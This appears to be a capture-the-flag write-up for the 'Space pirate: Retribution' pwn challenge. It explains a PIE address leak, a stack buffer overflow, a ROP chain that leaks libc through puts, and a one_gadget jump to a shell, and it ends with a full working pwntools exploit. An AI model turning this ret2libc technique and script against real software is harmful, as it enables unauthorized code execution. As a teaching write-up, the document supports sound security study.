









# Space pirate: Retribution
*We got access to the Admin Panel! The last part of the mission is to change the target location of the missiles. We can probably target Draeger's HQ or some other Golden Fang's spaceships. Draeger's HQ might be out of the scope for now, but we can certainly cause significant damage to his army.*

## Checking out the binary
When we unzip ``pwn_sp_retribution.zip`` the first thing that is noticable is that there is a folder ``glibc`` containing a ``libc.so.6`` file.  
That might be a little bit meta, but the fact that we're getting the libc tells me we're likely going to have to execute a [ret2libc](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc) attack using [`ROP`](## "Return oriented programming"), because for that we need to know the offsets of certain libc functions which are different for different versions of libc.  
  
Another thing I like to do is use the ``checksec`` script that's part of pwntools to check for security features of a binary.  
  
<pre>
<span style="color:lime">cjreek@kali</span>:<span style="color:cornflowerblue">~</span>$ checksec ./sp_retribution
[*] '/home/cjreek/sp_retribution'
    Arch:     amd64-64-little
    RELRO:    <span style="color:teal">Full RELRO</span>
    Stack:    <span style="color:red">No canary found</span>
    NX:       <span style="color:teal">NX enabled</span>
    PIE:      <span style="color:teal">PIE enabled</span>
    RUNPATH:  <span style="color:red">b'./glibc/'</span>
</pre>
  
What that tells us is that we won't have to worry about stack canaries in case of a buffer overflow, but because of [`PIE`](## "Position independent executeable") we'll probably need a way to leak addresses.  
  
Now lets play around with the program a little bit to get a general sense of what it does and maybe find something interesting.    
  
  
  
And indeed. After playing around with it for a bit we see 2 noticable things:
1. If we input only few characters as coordinates the program prints some additional strange characters we didn't originally enter. That might potentially be the address leak we were looking for.
2. The corrdinate verification prompt seems to be vulnerable to a buffer overflow attack as we can see by the segmentation fault message in the last line

## Debugging and analyzing

Let's load up the binary in Radare2 and let's see what we can find there.  

> **INFO**: I covered basic analysis and commands of radare2 in my writeup of [Space pirate: Going Deeper](going_deeper.md#debugging-and-analyzing)
  
The interesting function to look at here would be ``sym.missile_launcher`` as both our findings from above are from the "2. Change target's location" option whose logic is contained in this function.  
  
First let's look into the additional strange characters printed after we entered only few characters as the coordinate. For that we'll put breakpoints before the ``read()`` call and right after:

````
:> db 0x5566a1400a97
:> db 0x5566a1400a9c
````
> **INFO**: Because of [`PIE`](## "Position independent executeable") being enabled, your breakpoint addresses will be different from those above!
  
So let's run the program and compare the stack before and after the ``read()`` call:  
<pre>
[*] Insert new coordinates: x = [0x53e5854620fb399f], y = <b>A</b>
</pre>
  
  
  
This is how the stack looks after reading our input.  
The purple bytes are what we wrote - an "A" followed by a new line character. But after that there are 4 more bytes until we hit a null byte (red). Because printf will print everything up until it finds a null byte, those 4 additional bytes will get printed as well and are the strange additional characters we saw.  
And it seems like we hit the jackpot there! Because those 4 additional bytes being printed are part of an address pointing to somewhere in our program code (<b>0x5566a140</b>xxxx). It's just the 2 least significant bytes that we don't get because we have overwritten them with our input.  
  
Let's check the sections with the ``iS`` command to get a picture from where that part of the address we got is:

<pre>
nth paddr         size vaddr            vsize perm name
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00000000     0x0 0x00000000         0x0 ---- 
1   0x00000238    0x1d <b>0x5566a140</b>0238    0x1d -r-- .interp
</pre>

As we can see already from the first entry, the base address of our program lies in the same area as the address we leaked. So just putting two zero bytes for the 2 bytes we didn't leak will give us the base address of our binary which let's us calculate the addresses of everything else contained in the program.  
  
````python
0x5566a140xxxx => 0x5566a1400000 # base address of the program
````
  
## Leaking addresses
So now let's put what we learned until now into a python script:

````python
from pwn import *

r = process("./sp_retribution")

# go to option 2.
r.recvrepeat(0.2)
r.sendline(b'2')
r.recvrepeat(0.1)

# input just 1 char and receive until right before the leaked bytes
r.sendline(b'a')
r.recvuntil(b'y = a\x0a')

# receive the 4 bytes from the leaked address and convert to an int
leak = r.recv(4)
baseaddr = int.from_bytes(b'\x00\x00' + leak, byteorder='little')

print(hex(baseaddr))

r.close()
````

Output:
<pre>
[+] Starting local process './sp_retribution': pid 1924080
0x55be2aa00000
[*] Stopped process './sp_retribution' (pid 1924080)
</pre>
  
Looks good!  

## Buffer overflow
Now that we have the base address of our program we need a buffer overflow to use that address. Earlier we found that the prompt  
  
````
[*] Verify new coordinates? (y/n):
````

allows for a buffer overflow.  
Now we will take a closer look at this and try to use it for our exploit.

  

As we can see here, the ``read()`` call will read up to 132 bytes from stdin. We now have to find the offset of the return address in that buffer so we can overwrite the return address with our own address and take control of the program flow.  
An easy way to get that offset is to generate a pattern with some kind of tool like ``pattern_create`` from the Metasploit framework.  
There are also a lot of online tools that do this as well, like this [Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/).  
  
Now we generate a pattern of length 132. If we paste that pattern into the coordinate verification prompt while debugging the program. Depending on the debugger we either get a segfault error message with the RIP address of where the segfault happened or we set a breakpoint on the ``ret`` instruction of the ``missile_launcher`` function and inspect the stack.  
The first 8 bytes on the stack are the address ``ret`` will return to.

  
  
Those 8 bytes translate to the address ``0x3164413064413963``
Now we can find out the offset of that char sequence in our input with either the ``pattern_offset`` tool of metasploit or by pasting that address to the webpage we created that pattern from.  
Either method will tell us that the offset of the return address in our input string is 88.  
  
Now let's try and make sure that that offset is correct and we can indeed redirect our program flow.  
For this test we want the programm to return to the ``missile_launch`` function itself instead of closing the program. For that we need its address which we can calculate by adding the offset of the function to the base address we leaked earlier.  
We can get the offset of the function with pwntools:

````python
from pwn import *

# Get function offsets
e = ELF("./sp_retribution", False)
missile_launcher_offset = e.symbols["missile_launcher"]

r = process("./sp_retribution")

# go to option 2.
r.recvrepeat(0.2)
r.sendline(b'2')
r.recvrepeat(0.1)

# input just 1 char and receive until right before the leaked bytes
r.sendline(b'a')
r.recvuntil(b'y = a\x0a')

# receive the 4 bytes from the leaked address and convert to an int
leak = r.recv(4)
baseaddr = int.from_bytes(b'\x00\x00' + leak, byteorder='little')

# calculate addresses based on leaked base address
missile_launcher_address = baseaddr + missile_launcher_offset

# send payload to overwrite the return address and jump back to missile_launcher()
r.recvrepeat(0.1)
payload = b'A'*88
payload += p64(missile_launcher_address)
r.sendline(payload)

r.interactive()
````
  
If we run that script we will indeed see the ``missile_launcher()`` function being executed again.  

  

We're in control now!

## Making a plan
We can now control the flow of the program. But what do we do now?  
What's the plan?  
As so often the case we would like to have a shell if possible. We could easily find and get the flag if we had a shell.  
The 2 main ways to do that is to call either the [system()](https://man7.org/linux/man-pages/man3/system.3.html) or [execve()](https://man7.org/linux/man-pages/man2/execve.2.html) function.  
But both of these are part of libc and although we leaked the base address of the sp_retribution program itself, we don't know at which address libc is loaded in our process.  
But there is a way to leak a libc address, calculate the base address of libc and then with that the address of any function contained in libc.  
All we need for that is some kind of function printing a string to stdout being imported, like for example ``printf`` or ``puts``. Looking at the function list with the ``afl`` command shows both ``puts`` and ``printf`` being imported:

<pre>
0x55794e400770    1 6            sym.imp.printf
...
0x55794e400760    1 6            sym.imp.puts
</pre>

If we have the choice ``puts`` is preferred because it always just prints the strings as is, whereas ``printf`` might substitute parts of the original string if it finds any format specifiers.  
  
What we can do is call ``sym.imp.puts`` which is kinda like a link to the real ``puts`` function in libc, but inside our program itself. That means we can calculate the address of ``sym.imp.puts`` with the base address we already leaked.  
  
This "link-function" is part of the so called "procedure linkage table" (PLT) which contains small functions that do nothing but jump to the real function in libc.  
Those "link-functions" get the addresses of the real functions from the so called "global offset table" (GOT) that gets populated with the libc addresses when the process is started.  

  
  
As we can calculate the address of ``puts`` inside the PLT (=``sym.imp.puts``) as well as the address of where the real address of ``puts`` is located in the GOT (``reloc.puts``) we can call ``sym.imp.puts`` to print its real address:

````
sym.imp.puts(reloc.puts);
````
  
We now have the address of ``puts`` in libc and because we also have the libc used by this challenge as well, we can get the offset of ``puts`` in libc to calculate the libc base address.  
With the libc base address we can now figure out the addresses of functions like ``execve`` or ``system`` or even so called "one gadgets" which are small code snippets that start a shell on their own.  
  
So let's summarize our plan:  
  1. **Leak the address of ``puts``** inside libc by letting it print its own address (``sym.imp.puts(reloc.puts)``)
  2. **Calculate the libc base address** by subtracting the offset of ``puts`` ins libc from the leaked ``puts`` address
  3. **Find a "one gadget" in libc** and calculate its address by adding its offset to the libc base address
  4. **Jump to the one gadget** to give us a shell

## ROP and Leak #2
Now let's see how we transform our plan to code.  
First let's get the offsets of ``sym.imp.puts`` and ``reloc.puts``:

````python
puts_plt_offset = e.symbols["plt.puts"] # = sym.imp.puts
puts_got_offset = e.symbols["got.puts"] # = reloc.puts
````

We can then calculate the real addresses of those after we leaked the base address of the program:

````python
# calculate addresses based on leaked base address
missile_launcher_address = baseaddr + missile_launcher_offset
puts_plt_address = baseaddr + puts_plt_offset
puts_got_address = baseaddr + puts_got_offset
````
  
Now comes the part where we do some return oriented programming (ROP). ROP is essentially just chaining return addresses to jump not only to one destination but, to execute a whole chain of functions or so called ROP gadgets (small pieces of code that do something we need).  
First we want to call ``sym.imp.puts`` but we also need to pass it an argument to print.  
In 32-Bit programs those arguments are put on the stack, and as we have control over what's on the stack calling ``sym.imp.puts`` with ``reloc.puts`` puts as an argument would just look like that:

````python
payload = b'A'*88
payload += p64(puts_plt_address) # function to return to
payload += p64(puts_got_address) # 1st argument of the function
r.sendline(payload)
````
  
We're dealing with a 64-bit binary though and there arguments are not put on the stack but into CPU registers in this order:

1. RDI
2. RSI
3. RDX
4. RCX
5. R8
6. R9
   
So we need to find a way to put the reloc.puts address into the RDI register.  
The easiest way to do that would be a ROP gadget that looks like that: 

````nasm 
pop rdi
ret
````  
  
It takes a value from the stack and puts it into RDI and directly returns to continue our ROP chain. We can search for ROP gadgets in radare2 with:

````nasm
:> /R pop rdi
  0x55794e40028a                 5f  pop rdi
  0x55794e40028b a1bd52c216b4bdbebb  movabs eax, dword [0xbbbebdb416c252bd]
  0x55794e400294                 95  xchg eax, ebp
  0x55794e400295             c60340  mov byte [rbx], 0x40
  0x55794e400298         e9f632d400  jmp 0x55794f143593

  0x55794e400d33                 5f  pop rdi
  0x55794e400d34                 c3  ret
```` 
  
And we actually found exactly what we were looking for!  
At offset ``0xd33`` there is a ``pop rdi; ret`` gadget!  
Let's put this offset into our code and also calculate the real address of that gadget from our base address: 
  
````python
pop_rdi_offset = 0xd33
...
pop_rdi_address = baseaddr + pop_rdi_offset
````
  
Now we're ready to actually leak the libc address:  

````python
payload = b'A'*88
payload += p64(pop_rdi_address)
payload += p64(puts_got_address)
payload += p64(puts_plt_address)
payload += p64(missile_launcher_address)
r.sendline(payload)
````  
  
Now when we run our exploit we get this:

  
  
Let's start the script again but now in DEBUG mode:

<pre>
<span style="color:lime">cjreek@kali</span>:<span style="color:cornflowerblue">~</span>$ python3 ./pwn_retribution.py DEBUG
</pre>


  
The purple bytes are the bytes right before our leaked libc address. The red bytes are our leaked address. Now we know how to read the address in our script:

````python
# ...
r.sendline(payload)

# receive bytes until right before the leaked libc address
r.recvuntil(b'[1;34m\n')
leak = r.recv(6)
libc_puts_address = int.from_bytes(leak, byteorder='little')
````  

With that and the offset of ``puts`` in libc we can finally calculate the libc base address:

````python
libc = ELF("./glibc/libc.so.6", False)
libc_puts_offset = libc.symbols["puts"]
# ...
libc_puts_address = int.from_bytes(leak, byteorder='little')
libc_base_address = libc_puts_address - libc_puts_offset
````  
  
Now we have everything but the "one gadget" we're talking about above. We can search for those with a tool called ``one_gadget``:  
  
<pre>
<span style="color:lime">cjreek@kali</span>:<span style="color:cornflowerblue">~</span>$ one_gadget ./glibc/libc.so.6
</pre>
<pre>
0x45226 execve("/bin/sh", <span style="color:lime">rsp</span>+0x30, environ)
<span style="color:salmon">constraints</span>:
  <span style="color:lime">rax</span> == NULL

0x4527a execve("/bin/sh", <span style="color:lime">rsp</span>+0x30, environ)
<span style="color:salmon">constraints</span>:
  [<span style="color:lime">rsp</span>+0x30] == NULL

0xf03a4 execve("/bin/sh", <span style="color:lime">rsp</span>+0x50, environ)
<span style="color:salmon">constraints</span>:
  [<span style="color:lime">rsp</span>+0x50] == NULL

0xf1247 execve("/bin/sh", <span style="color:lime">rsp</span>+0x70, environ)
<span style="color:salmon">constraints</span>:
  [<span style="color:lime">rsp</span>+0x70] == NULL
</pre>
  
The tool found 4 possible one gadgets. Not all of them are guaranteed to work though. We have to try them all and seem if one of those works.  
I'll make it short: the last one at offste ``0xf1247`` will work.  
So let's add the offset to our code and calculate the real address of our one gadget as well:

````python
one_gadget_offset = 0xf1247 # found by the one_gadget tool
# ...
libc_base_address = libc_puts_address - libc_puts_offset
one_gadget_address = libc_base_address + one_gadget_offset
````  

## The final exploit

Now we're truly ready to jump to our one gadget code and get a shell!  
Luckily we already returned to the ``missile_launcher`` function after our first ROP chain and so we can just trigger another bufferoverflow to return to our one gadget (ret2libc!):  

````python
# receive remaining bytes and send anything for the "Insert new coordinates" prompt
r.recvrepeat(0.1)
r.sendline(b'anything')
r.recvrepeat(0.1)

# trigger the 2nd buffer overflow and return to the one gadget
payload = b'A'*88
payload += p64(one_gadget_address)
r.sendline(payload)

# we should now have a shell
r.interactive()
````
  
Now if we start the script we get this:


  
We got it! 🙂

And this is the final exploit:

````python
from pwn import *

# Get function offsets
e = ELF("./sp_retribution", False)
missile_launcher_offset = e.symbols["missile_launcher"]
puts_plt_offset = e.symbols["plt.puts"] # = sym.imp.puts
puts_got_offset = e.symbols["got.puts"] # = reloc.puts
pop_rdi_offset = 0xd33

# Get libc offsets
libc = ELF("./glibc/libc.so.6", False)
libc_puts_offset = libc.symbols["puts"]
one_gadget_offset = 0xf1247 # found by the one_gadget tool

# start the program
r = process("./sp_retribution")

# go to option 2.
r.recvrepeat(0.2)
r.sendline(b'2')
r.recvrepeat(0.1)

# input just 1 char and receive until right before the leaked bytes
r.sendline(b'a')
r.recvuntil(b'y = a\x0a')

# receive the 4 bytes from the leaked address and convert to an int
leak = r.recv(4)
baseaddr = int.from_bytes(b'\x00\x00' + leak, byteorder='little')

# calculate addresses based on leaked base address
missile_launcher_address = baseaddr + missile_launcher_offset
puts_plt_address = baseaddr + puts_plt_offset
puts_got_address = baseaddr + puts_got_offset
pop_rdi_address = baseaddr + pop_rdi_offset

# send payload to overwrite the return address and jump back to missile_launcher()
r.recvrepeat(0.1)
payload = b'A'*88
payload += p64(pop_rdi_address)
payload += p64(puts_got_address)
payload += p64(puts_plt_address)
payload += p64(missile_launcher_address)
r.sendline(payload)

# receive bytes until right before the leaked libc address
r.recvuntil(b'[1;34m\n')
# read the leaked address and calculate the libc base address and the address of our one gadget
leak = r.recv(6)
libc_puts_address = int.from_bytes(leak, byteorder='little')
libc_base_address = libc_puts_address - libc_puts_offset
one_gadget_address = libc_base_address + one_gadget_offset

# receive remaining bytes and send anything for the "Insert new coordinates" prompt
r.recvrepeat(0.1)
r.sendline(b'a')
r.recvrepeat(0.1)

# trigger the 2nd buffer overflow and return to the one gadget to start a shell
payload = b'A'*88
payload += p64(one_gadget_address)
r.sendline(payload)

# we should now have a shell
r.interactive()
````